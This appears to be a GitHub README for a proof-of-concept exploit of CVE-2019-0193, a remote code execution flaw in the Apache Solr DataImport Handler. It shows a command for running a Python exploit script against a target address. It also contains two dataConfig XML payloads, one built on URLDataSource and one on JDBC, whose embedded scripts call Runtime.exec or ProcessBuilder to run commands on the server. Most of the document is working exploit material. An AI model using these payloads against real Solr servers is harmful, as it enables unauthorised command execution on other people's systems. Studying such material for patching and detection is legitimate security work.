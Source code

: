 # CVE-2019-0193  Solr DataImport Handler RCE (RCE-Vuln < solr v8.12)
![](./solr_RCE.gif)
![](./CVE-2019-0193.jpg)
### python usage

`python CVE-2019-0193.py http://192.168.2.18:8983 "calc"`

### URLDataSource_Poc

![](./python-CVE-2019-0193-poc.jpg)

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("calc");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

### jdbc


![](./python-CVE-2019-0193.jpg)

`D:\CVE\CVE-2019-0193\solr-7.7.2\server\solr-webapp\webapp\WEB-INF\lib\mysql-connector-java-5.1.48.jar`

```
<dataConfig>  
<dataSource name="fromMysql"
     type="JdbcDataSource"  
     driver="com.mysql.jdbc.Driver"  
     url="jdbc:mysql://localhost:3306/mysql"  
     user="root"  
     password="jas502n"/>
<script ><![CDATA[
   function poc(row) {
      var x=new java.lang.ProcessBuilder;x.command("notepad",'1.txt');org.apache.commons.io.IOUtils.toString(x.start().getInputStream());
     return row;
   }
   ]]>
 </script>  
<document>  
 <entity name="Jas502n" transformer="script:poc" query="SELECT 1">
 </entity>  
</document>  
</dataConfig>
```

### 参考链接：
https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA

https://mp.weixin.qq.com/s/diF7HOf3wuSjBeoIb7qLCA

